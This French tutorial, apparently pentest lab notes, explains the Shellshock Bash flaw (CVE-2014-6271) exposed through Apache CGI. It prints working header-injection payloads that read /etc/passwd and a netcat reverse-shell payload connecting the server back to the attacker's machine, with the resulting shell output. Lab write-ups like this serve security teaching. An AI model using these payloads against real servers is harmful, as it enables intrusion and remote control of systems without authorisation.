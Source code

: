 # CVE-2014-6271/Shellshock

Cette vulnérabilité impact BASH ( Bourne Again Shell ). BASH est rarement exposé via les applications web mais il peut être indirectement exposé via une interface CGI (Computer Graphic Interface).



Dans l’exemple ci-dessus nous remarquons que lors de l’appel de notre page web nous appelons un GET sur un CGI/Status

CGI utilise la plus part du temps Python ou Perl pour communiquer avec le serveur.

### Comment Fonctionne les CGIS ? <a href="#cve-2014-6271-shellshock-commentfonctionnelescgis" id="cve-2014-6271-shellshock-commentfonctionnelescgis"></a>

Quand nous appelons une CGI; le server web (Apache dans dans notre exemple) va démarrer un nouveau processus et appeler la CGI. Ici, le serveur va démarrer un process BASH et lancer le script CGI.

Apache a besoin de passer les informations au script CGI. Pour ce faire, il va utiliser les variables d’environnement. Ces dernières sont disponible dans le script CGI. Cela permet à Apache de passer facilement tout les Headers pour la CGI. SI nous avons un Header HTTP nommé `blah` dans notre requête, nous aurons une variable d’environnement nommé `HTTP_BLAH` dans notre CGI.

### La vulnérabilité. <a href="#cve-2014-6271-shellshock-lavulnerabilite." id="cve-2014-6271-shellshock-lavulnerabilite."></a>

La source du problème provient de la déclaration des fonction interne dans BASH. La première version de la vulnérabilité est due a la possibilité d’exécuter du code après la déclaration d’une commande.

[https://seclists.org/oss-sec/2014/q3/650](https://seclists.org/oss-sec/2014/q3/650) (pour plus d’information)

1. Déclarer la variable d’environnement en utilisant `()`
2. Ajouter un Body vide pour la fonction `{ :;};`
3. Ajouter la commande à exécuter.

### Exploitation <a href="#cve-2014-6271-shellshock-exploitation" id="cve-2014-6271-shellshock-exploitation"></a>

#### Deux manière d’exploiter : <a href="#cve-2014-6271-shellshock-deuxmanieredexploiter" id="cve-2014-6271-shellshock-deuxmanieredexploiter"></a>

#### En utilisant Proxy (Burp ou OWASP) <a href="#cve-2014-6271-shellshock-enutilisantproxy-burpouowasp" id="cve-2014-6271-shellshock-enutilisantproxy-burpouowasp"></a>

![](../../.gitbook/assets/2402713610.jpg)

\=> Modification du Header `User-agent` ici la commande nous permet de lire les fichiers present dans etc/passwd

Il faudra inspecter le Header HTTP de la réponse pour voir le résultat de la playload.

#### En utilisant Netcat <a href="#cve-2014-6271-shellshock-enutilisantnetcat" id="cve-2014-6271-shellshock-enutilisantnetcat"></a>

`$ echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; echo \$(</etc/passwd)\r\nHost: VULNERABLE_HTTP \r\nConnection: close\r\n\r\n" | nc VULNERABLE_HTTP 80`

ici nous remplissons un header de la même manière en utilisant une commande Netcat sur le port 80.

### Reverse Shell <a href="#cve-2014-6271-shellshock-reverseshell" id="cve-2014-6271-shellshock-reverseshell"></a>

Nous avons besoin que le serveur se connecte a notre poste. il faudra donc d'abord ouvrir un port sur notre system. Nous voulons que le port soit ouvert sur le serveur ainsi nous allons tester les ports les plus communs :

21 (FTP), 53 (DNS), 123 (NTP), 80 (HTTP) and 443 (HTTPs)

`nc -l -p 433`

Maintenant nous avons besoin d’adapter notre playload afin que le server se connecte a notre system sur le port 443.

la playload peux être injecté soit via burpsuite en injectant via le header User-Agent soit via netcat :

`echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc 192.168.159.1 443 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc vulnerable 80`

ainsi en retournant sur notre première commande Netcat nous pouvons accéder a notre reverse shell

```
# nc -l -p 443
id
uid=1000(pentesterlab) gid=50(staff) groups=50(staff),100(pentesterlab)
```
